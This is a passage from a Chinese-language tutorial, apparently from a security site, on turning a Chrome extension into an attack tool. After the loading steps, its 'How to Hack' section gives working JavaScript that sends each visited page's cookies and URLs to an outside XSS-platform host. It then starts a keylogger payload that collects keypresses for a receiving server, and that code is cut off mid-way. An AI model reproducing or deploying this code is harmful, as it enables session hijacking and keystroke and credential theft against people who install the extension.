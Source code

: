 ```
      "browsingData"
  ]
}

```

创建以下文件：

![Alt text](http://drops.javaweb.org/uploads/images/8ba910195913e9340cd19c7a42fef14b243ce944.jpg)

现在，所有的文件就全了，但是还没什么功能，尝试加载一下插件，浏览器URL栏输入`chrome://extensions/`选择加载已解压的扩展程序，之后选择文件所在的文件夹。

![Alt text](http://drops.javaweb.org/uploads/images/430dbcd3335a0267a088911bdc3c10218f38a64b.jpg)

然后插件就已经被加载上了：

![Alt text](http://drops.javaweb.org/uploads/images/2f0901968928062f5abbb259f9c6f3bb1e3d13bf.jpg)

0x02 How to Hack
================

* * *

插件已经可以被成功加载了，怎么使用它来进行攻击呢，我们开始编写。

### 1、XSS Platform

配置XSS平台，获取项目代码如下：

```
<script src=http://t.cn/xxxxxxx></script>

```

访问http://t.cn/xxxxxx 获取代码，将其写入check.js，内容如下：

```
﻿﻿(function(){(new Image()).src='http://xss9.com/index.php?do=api&id=xxxxxx&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='http://xss9.com/index.php?do=keepsession&id=xxxxxx&url='+escape(document.location)+'&cookie='+escape(document.cookie)};

```

保存文件，重新加载插件，访问任意网站，获取访问网站的cookie信息，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/321820fb1c0a229eefb9d290b0b3e5aa488ca95f.jpg)

### 2、Keyloger

将以下Payload写入check.js中：

```
$(document).ready(function()
{
    var server = "http://server.com/"; //接收服务器
    var gate = "data.php?data=";  //接收文件
    var tabURL = window.location.href;

            var keys='';
    document.onkeypress = function(e) {
      get = window.event?event:e;
      key = get.keyCode?get.keyCode:get.charCode;
      key = String.fromCharCode(key);
      keys+=key;
    }
```